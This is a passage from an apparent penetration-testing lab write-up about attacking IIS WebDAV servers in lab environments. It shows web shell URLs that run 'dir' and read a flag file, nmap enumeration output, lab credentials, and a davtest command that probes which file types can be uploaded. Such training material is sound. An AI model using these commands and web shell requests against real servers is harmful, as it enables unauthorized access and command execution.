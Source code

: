 - `dir C:\` command
  - `http://10.3.26.115/webdav/webshell.asp?cmd=dir+C%3A%5C`

- `type C:\flag.txt` command
  - `http://10.3.26.115/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt`


<details><summary>Reveal Flag: 🚩</summary></details>

------

## Lab 2

> 🔬 [Windows: IIS Server: WebDav Metasploit](https://attackdefense.com/challengedetails?cid=2319)
>
> - Target IP: `10.4.18.218`
> - IIS exploitation with Metasploit
> - Credentials provided: `bob`:`password_123321`

```bash
cat /root/Desktop/target
ping 10.4.18.218

nmap -p80 --script http-enum -sV 10.4.18.218
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

![](windows-attacksassets/image-20230310152959767.png)

- Use `davtest` to get the all the file types that can be uploaded and executed on the IIS server

```bash
davtest -auth bob:password_123321 -url http://10.4.18.218/webdav
```
